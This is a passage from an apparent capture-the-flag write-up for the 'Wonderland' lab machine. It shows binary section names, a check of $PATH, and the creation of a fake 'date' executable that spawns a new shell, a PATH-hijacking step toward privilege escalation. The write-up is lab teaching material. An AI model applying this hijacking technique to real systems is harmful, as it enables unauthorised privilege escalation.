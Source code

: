 ```bash
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.got.plt
.data
.bss
.comment
```
# 6. Let Try to modify date
## As i think date have directly so try to modify it
### Let check path 
```bash
echo "$PATH"
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```
## Ok let try to make a file with date
```bash
rabbit@wonderland:/home/rabbit$ nano date 
Unable to create directory /home/alice/.local/share/nano/: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue
```
## Add few lines to get new bash session
![Screenshot from 2024-04-04 20-58-20](https://github.com/Esther7171/Wonderland/assets/122229257/1293dd88-ccce-434d-9959-a052e1e2f3c3)
## Let give permision and run this
```bash
rabbit@wonderland:/home/rabbit$ chmod +x date 
rabbit@wonderland:/home/rabbit$ ./date
rabbit@wonderland:/home/rabbit$ 
```
## Let check the shell level to get an idea of success
```bash
rabbit@wonderland:/home/rabbit$ echo "$SHLVL"
3
rabbit@wonderland:/home/rabbit$ 
```
### okay we got differ session 